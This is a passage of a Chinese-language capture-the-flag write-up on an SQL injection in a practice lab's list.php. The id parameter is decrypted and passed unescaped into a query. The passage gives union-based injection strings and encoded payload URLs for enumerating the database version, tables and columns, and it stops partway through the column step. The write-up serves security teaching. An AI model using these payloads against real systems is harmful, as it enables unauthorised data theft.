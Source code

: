 ### 0x02. news 目录下有 list.php的源码

list.php

![img]({{site.baseurl}}/assets/images/01/clip_image018.jpg) 

 

\1. id可控 经过decode 函数处理 传入sql语句

\2. decode 函数  将  id 两次base64_decode 之后的值  通过 mcrypt解密,之后判断后7为字符是否为‘hxb2018’，是则返回‘hxb2018‘前的字符 。

3.id 的值带入了sql语句，id可控制，所以可以造成sql注入

![img]({{site.baseurl}}/assets/images/01/clip_image020.jpg) 

此处可得知。sql语句查询出的结果在页面有回显，故可能为 union 注入

### 0x03 构造payload

由 list.php可知 我们只需将 注入语句（id）拼接 ‘hxb2018’ 之后通过 mcrypt加密之后 经过两次base64_encode 之后就可以造成sql注入。下图为构造payload的代码，id为注入语句

![img]({{site.baseurl}}/assets/images/01/clip_image022.jpg) 

 

### 0x04 实现

1.       查数据库版本,当前数据库名称

​       注入语句 ：-1 union select 1,version(),database(),4 --+

​       payload:      /news/list.php?id=eGdkNThpcFRybng4VnpTQkppY3FDaDU5OEtEOExJZTVJdkJLT1QraXB2UXdPTUNMVGNjbzVDeVUvMkY1Yjlvam4xWTlMTkJieTYzYmpuckI2S0RPcXc9PQ==

​       回显 ：

![img]({{site.baseurl}}/assets/images/01/clip_image024.jpg) 

 

2.       查数据库表‘

​       注入语句: -1 union select 1,2,group_concat(distinct table_name),4 from information_schema.columns where table_schema='mozhe_discuz_stormgroup' --+

​       payload:      /news/list.php?id=eGdkNThpcFRybng4VnpTQkppY3FDamtLbjk5ZUsvTkV5cEY5bjBSUGJEOGZvS0xjY2hTOENQVE95TlBwL3Nrakc4MjZhM0dvaFJYRGZPV1RwS3A1Q2pJbUVaZkxGbmNBNFo4NUlCWnkrcDN2RWw3YW9GQWlRSUQ5Mm8vLytUUWxnWUZNQU5uTWpNZklJZFpoS09QODB3c3dqWjJaVWJ2aXl0UjBNWS9nUWZvUXkybm51TDZMMTc4YWV1Q0Q4M1Fh

​       

​       回显：![img]({{site.baseurl}}/assets/images/01/clip_image026.jpg)

 

3.       查表中字段

​       注入语句：-1 union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='notice2' --+

